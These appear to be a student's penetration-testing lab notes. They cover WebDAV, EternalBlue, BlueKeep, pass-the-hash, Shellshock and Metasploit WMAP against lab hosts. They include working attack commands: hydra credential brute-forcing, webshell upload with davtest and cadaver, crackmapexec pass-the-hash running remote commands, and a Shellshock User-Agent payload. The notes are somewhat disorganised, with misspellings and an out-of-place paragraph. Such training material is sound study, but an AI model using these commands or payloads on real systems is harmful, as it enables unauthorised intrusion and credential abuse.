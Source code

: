 
1. Information Gathering
2. Enumeration
3. Exploitation
4. Post-Exploitation
5. Reporting


- Microsoft IIS - Ports 80/443
- WebDAV - 80/443
- SMB/CIFS - 445
- RDP - 3389
- WinRM - 5986/443

Which Metasploit plugin assists in identifying exploit modules based on currently open ports?b

<h2>WebDAV Exploitation</h2>

Standard port 80 with SSL encryption 443.

Step 1: identify if wedav is running on iis web server (.net and php)

If not this can be easy

Tools:

.davtest: use to authenticate and exploit the web server also send test files as upload.

.cadaver: authenticate with file upload (webshell) and download etc.

```
hydra -L pathtouser -P pathtopass ipORdomain http-get /subdirectory/
```

```
nmap --script http-enum -sV -p 80 demo.ine.local
```
--
```
 davtest -url http://demo.ine.local/

 davtest -auth username:password -url http://demo.ine.local/webdav

 cadaver http://demo.ine.local/webdav
```
- Can also use Metasploit. 
```
search IIS upload
```
<h2>SMB Exploitation (EternalBlue) - NSA</h2>

Standard port 445

Which tool is mentioned for automating the exploitation of the MS-17-010 vulnerability?

Autosmb ms17-010

```
Nmap --script smb-vuln-ms17-010
```
What is AutoBlue (MS17-010)?

- AutoBlue is a public proof-of-concept (PoC) exploit for the MS17-010 vulnerability (also known as EternalBlue).
- MS17-010 is a Microsoft Windows SMBv1 vulnerability that allows remote code execution (RCE) when exploited.
- Exploits like AutoBlue abuse the flaw to gain control of a vulnerable system over the network without authentication.

The exploit code does only one main job:

- It abuses the vulnerability to inject code execution capability into the target.
- But at this stage, the target system just has a "hole" that lets you run some arbitrary instructions — it doesn’t know what to run unless you give it payload code.

Think of it like:

- The exploit = breaking open a door and making a hole in the wall.
- The shellcode = instructions telling the system what to actually do once you’re inside.

<h2>RDP Exploitation(BlueKeep) - Microsoft Researchers </h2>

Standard port 3389

In the metasploite we have to also set target ;

- Show targets
- Set target 2(example)

<h2>Pass-the-Hash attack</h2>

Harvesting NTML passwords

Tools:

- Crackmapexec ( automates interactions for SMB authentication)
- Metasploit PsExec Module - ( uses both LM and NTLM)

 In the cybersecurity world, BadBlue is primarily known as a vulnerable target used in penetration testing and training exercises. A common lab exercise in cybersecurity education is to demonstrate how attackers can exploit the buffer overflow in BadBlue to gain remote access to a system.

```
 crackmapexec smb domain.ine.local -u Admin -H "NTML-hash"
 crackmapexec smb domain.ine.local -u Admin -H "NTML-hash" "ipconfig"
```
The PURPOSE of Pass-the-hash is to authenticate with the NTML hash or with clear text password.

<h2>ShellShock (remote arbitrary code execution in bash shell code)</h2>

- Vulnerability in bash
- Apache web server sometimes uses CGI ( common gateway interface)
- If the CGI is configured to use bash then .cgi files are also vulnerable.

```
nmap --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```


User-Agent:
```
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```
<h2>Nessus</h2>

You can load the results of Nessus into Metasploit and check the results using the following commands.

```
 hosts

 services

 vulns
```
<h2>WMAP</h2>

```
 load wmap

 wmap_sites -a targetIP

 wmap_targets -h

 wmap_targets -t [http://targetIP](http://targetIP)

 wmap_sites -l

 wmap_target -l

 wmap_target -t ( list the modules to be performed)

 wmap_run -h

 wmap_run -t
```
This will give you all the modules inside Metasploit that can be used to exploit against.

```
 auxiliary/scanner/http/http_put

 wmap_run -e
```
this will run all enabled modules against the target web server and will display the results of the modules.



